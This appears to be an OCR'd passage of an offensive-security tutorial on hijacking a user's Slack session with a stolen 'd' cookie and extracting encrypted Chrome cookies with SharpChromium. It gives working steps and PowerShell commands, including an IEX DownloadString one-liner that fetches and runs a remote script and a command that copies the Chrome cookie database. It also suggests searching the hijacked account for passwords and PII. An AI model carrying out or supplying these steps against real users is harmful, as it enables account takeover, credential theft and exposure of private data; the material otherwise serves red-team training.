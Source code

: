```
        Our target website is slack.com. Now that we have the cookie, we want to impersonate the user. Let's navigate to slack.com once the page loads, click on the icon for the Cookie-Editor extension, and modify the value of the d cookie with the value you have from the cookieextractor.py script. Make sure to click the save icon (marked in red in the image below).

        Once you have saved the cookie, you can refresh the page and see that you are logged in as the user.

        Now we are logged in as the user and can click on Launch Slack. We may get a prompt for credentials or other types of authentication information; we can repeat the above process and replace the cookie d with the same value we used to gain access the first time on any website that asks us for information or credentials.

        Once we complete this process for every website where we get a prompt, we need to refresh the browser, click on Launch Slack and use Slack in the browser.

        After gaining access, we can use built-in functions to search for common words like passwords, credentials, PII, or any other information relevant to our assessment.



        -Cookie Extraction from Chromium-based Browsers

        The chromium-based browser also stores its cookies information in an SQLite database. The only difference is that the cookie value is encrypted with Data Protection API (DPAPI). DPAPI is commonly used to encrypt data using information from the current user account or computer.

        To get the cookie value, we'll need to perform a decryption routine from the session of the user we compromised. Thankfully, a tool SharpChromium does what we need. It connects to the current user SQLite cookie database, decrypts the cookie value, and presents the result in JSON format.

        (  https://github.com/djhohnstein/SharpChromium  )




        -PowerShell Script - Invoke-SharpChromium

        PS C:\> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')

        PS C:\> Invoke-SharpChromium -Command "cookies slack.com"


        We got an error because the cookie file path that contains the database is hardcoded in SharpChromium, and the current version of Chrome uses a different location.

        We can modify the code of SharpChromium or copy the cookie file to where SharpChromium is looking.

        SharpChromium is looking for a file in %LOCALAPPDATA%\Google\Chrome\User Data\Default\Cookies, but the actual file is located in %LOCALAPPDATA%\Google\Chrome\User Data\Default\Network\Cookies with the following command we will copy the file to the location SharpChromium is expecting.

        PS C:\> copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"


        PS C:\> Invoke-SharpChromium -Command "cookies slack.com"




```
